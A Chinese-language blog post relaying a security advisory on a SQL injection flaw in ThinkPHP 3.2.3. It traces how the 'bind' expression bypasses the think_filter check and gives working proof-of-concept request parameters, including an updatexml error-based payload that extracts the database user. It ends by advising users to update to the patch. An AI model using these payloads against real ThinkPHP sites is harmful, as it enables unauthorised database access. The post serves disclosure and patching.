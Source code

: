 title: Thinkphp3.2.3发现SQL注入漏洞！
author: hojun
avatar: https://cdn.jsdelivr.net/gh/honjun/ImageHosting/sina/006bYVyvgy1ftand2qurdj303c03cdfv.jpg
authorDesc: 一个好奇的人
categories: 技术
date: 2018-04-16 19:40:40
authorLink: /about/hojun.html
authorAbout:
tags:
 - thinkphp
 - php
keywords: SQL注入漏洞
description: 安全客文章报道发现Thinkphp3.2.3最新版SQL注入漏洞！还使用Thinkphp3.2.3版本的小伙伴赶紧去github上更新补丁
photos:
 - https://cdn.jsdelivr.net/gh/honjun/ImageHosting/sina/006bYVyvgy1fqeqiwzno1j30au0643yf.jpg
---
![](https://cdn.jsdelivr.net/gh/honjun/ImageHosting/sina/006bYVyvgy1fqeqiwzno1j30au0643yf.jpg)
安全客文章报道发现Thinkphp3.2.3最新版SQL注入漏洞！还使用Thinkphp3.2.3版本的小伙伴赶紧去github上更新补丁！

----------


## **漏洞详情**
由于框架实现安全数据库过程中在update更新数据的过程中存在SQL语句的拼接，并且当传入数组未过滤时导致出现了SQL注入。

thinkphp系列框架过滤表达式注入多半采用I函数去调用think_filter
```php
function think_filter(&$value){
    if(preg_match('/^(EXP|NEQ|GT|EGT|LT|ELT|OR|XOR|LIKE|NOTLIKE|NOT BETWEEN|NOTBETWEEN|BETWEEN|NOTIN|NOT IN|IN)$/i',$value))
```
有没有相关tips来达到I函数绕过呢？是可以的。
一般按照官方的写法，thinkphp提供了数据库链式操作，其中包含连贯操作和curd操作，在进行数据库CURD操作去更新数据的时候：
举例update数据操作。
![](https://cdn.jsdelivr.net/gh/honjun/ImageHosting/sina/006bYVyvgy1fqeqbe8b70j30jm0c4mz4.jpg)
直接看框架的where子单元函数，之前网上公开的exp表达式注入就是从这里分析出来的结论:
Thinkphp/Library/Think/Db/Driver.class.php
其中除了exp能利用外还有一处bind，而bind可以完美避开了think_filter：

```php
elseif('bind' == $exp ){ // 使用表达式
    $whereStr .= $key.' = :'.$val[1];
}elseif('exp' == $exp ){ // 使用表达式
    $whereStr .= $key.' '.$val[1];
```

这里由于拼接了`$val`参数的形式造成了注入，但是这里的bind表达式会引入:符号参数绑定的形式去拼接数据，通过白盒对几处CURD操作函数进行分析定位到update函数，insert函数会造成sql注入，于是回到上面的updateh函数。
Thinkphp/Library/Think/Db/Driver.class.php
接着跟进execute函数，这里有处对$this->queryStr进行字符替换的操作：

```php
$this->queryStr =   strtr($this->queryStr,array_map(function($val) use($that){ return '''.$that->escapeString($val).'''; },$this->bind));
```

具体是什么，我这里写了一个实例：
常规的跟新数据库用户信息的操作：
Application/Home/Controller/UserController.class.php
```php
<?php
namespace HomeController;
use ThinkController;
class UserController extends Controller {
    public function index(){
        $User = M("member");
        $user['id'] = I('id');
        $data['money'] = I('money');
        $data['user'] = I('user');
        $valu = $User->where($user)->save($data);
        var_dump($valu);
    }
}
```
根据进来的id更新用户的名字和钱，构造一个简单一个poc
id[]=bind&id[]=1’&money[]=1123&user=liao
当走到execute函数时sql语句为：
```sql
UPDATE `member` SET `user`=:0 WHERE `id` = :1'
```
然后`$that = $this`
![](https://cdn.jsdelivr.net/gh/honjun/ImageHosting/sina/006bYVyvgy1fqeqb93u9aj30f203cmxk.jpg)
然后下面的替换操作是将”:0”替换为外部传进来的字符串，这里就可控了。
![](https://cdn.jsdelivr.net/gh/honjun/ImageHosting/sina/006bYVyvgy1fqeqb43ayyj30hs016mx5.jpg)
替换后：
![](https://cdn.jsdelivr.net/gh/honjun/ImageHosting/sina/006bYVyvgy1fqeqbjj36jj30ea03bwew.jpg)
明显发现之前的user参数为:0然后被替换为了liao，这样就把:替换掉了。
后面的:1明显是替换不掉的：
![](https://cdn.jsdelivr.net/gh/honjun/ImageHosting/sina/006bYVyvgy1fqeqims50kj30xk07nmyj.jpg)
那么我们将id[1]数组的参数变为0呢？
id[]=bind&id[]=0%27&money[]=1123&user=liao
![](https://cdn.jsdelivr.net/gh/honjun/ImageHosting/sina/006bYVyvgy1fqeqirsj4qj312y08bwgd.jpg)
果然造成了注入：
POC:
money[]=1123&user=liao&id[0]=bind&id[1]=0%20and%20(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))
![](https://cdn.jsdelivr.net/gh/honjun/ImageHosting/sina/006bYVyvgy1fqeqj21mpsj311h06kq4e.jpg)

----------


## **修复方式**
更新最新补丁
https://github.com/top-think/thinkphp/
[原文地址](https://www.anquanke.com/post/id/104847)www.anquanke.com/post/id/104847
